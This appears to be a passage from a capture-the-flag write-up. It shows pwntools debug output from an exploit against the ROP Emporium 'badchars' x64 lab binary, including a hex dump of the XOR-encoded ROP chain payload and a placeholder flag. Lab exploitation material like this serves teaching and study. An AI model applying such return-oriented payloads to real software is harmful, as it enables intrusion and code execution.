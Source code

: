 ```
$ python3 exploit.py
[+] Starting local process './badchars' argv=[b'./badchars'] : pid 5123
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[*] '/home/kali/ctf/rop-emporium/badchars/x64/badchars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] Loaded 13 cached gadgets for './badchars'
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[*] XOR Key: b'\x90'
[*] Encoded target: b'fl\xf1\xf7\xbet\xe8t'
[DEBUG] Received 0x44 bytes:
    b'badchars by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b"badchars are: 'x', 'g', 'a', '.'\n"
    b'> '
[DEBUG] Sent 0xf1 bytes:
    00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000020  90 90 90 90  90 90 90 90  9c 06 40 00  00 00 00 00  │····│····│··@·│····│
    00000030  66 6c f1 f7  be 74 e8 74  29 10 60 00  00 00 00 00  │fl··│·t·t│)·`·│····│
    00000040  ef be ad de  ef be ad de  ef be ad de  ef be ad de  │····│····│····│····│
    00000050  34 06 40 00  00 00 00 00  a0 06 40 00  00 00 00 00  │4·@·│····│··@·│····│
    00000060  90 00 00 00  00 00 00 00  2b 10 60 00  00 00 00 00  │····│····│+·`·│····│
    00000070  28 06 40 00  00 00 00 00  a0 06 40 00  00 00 00 00  │(·@·│····│··@·│····│
    00000080  90 00 00 00  00 00 00 00  2c 10 60 00  00 00 00 00  │····│····│,·`·│····│
    00000090  28 06 40 00  00 00 00 00  a0 06 40 00  00 00 00 00  │(·@·│····│··@·│····│
    000000a0  90 00 00 00  00 00 00 00  2d 10 60 00  00 00 00 00  │····│····│-·`·│····│
    000000b0  28 06 40 00  00 00 00 00  a0 06 40 00  00 00 00 00  │(·@·│····│··@·│····│
    000000c0  90 00 00 00  00 00 00 00  2f 10 60 00  00 00 00 00  │····│····│/·`·│····│
    000000d0  28 06 40 00  00 00 00 00  a3 06 40 00  00 00 00 00  │(·@·│····│··@·│····│
    000000e0  29 10 60 00  00 00 00 00  10 05 40 00  00 00 00 00  │)·`·│····│··@·│····│
    000000f0  0a                                                  │·│
    000000f1
[*] Switching to interactive mode
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Process './badchars' stopped with exit code -11 (SIGSEGV) (pid 5123)
[*] Got EOF while reading in interactive
```

The `flag.txt` payload was successfully decoded in memory by leverating the XOR ROP gadgets, granting us the flag: `ROPE{a_placeholder_32byte_flag!}`
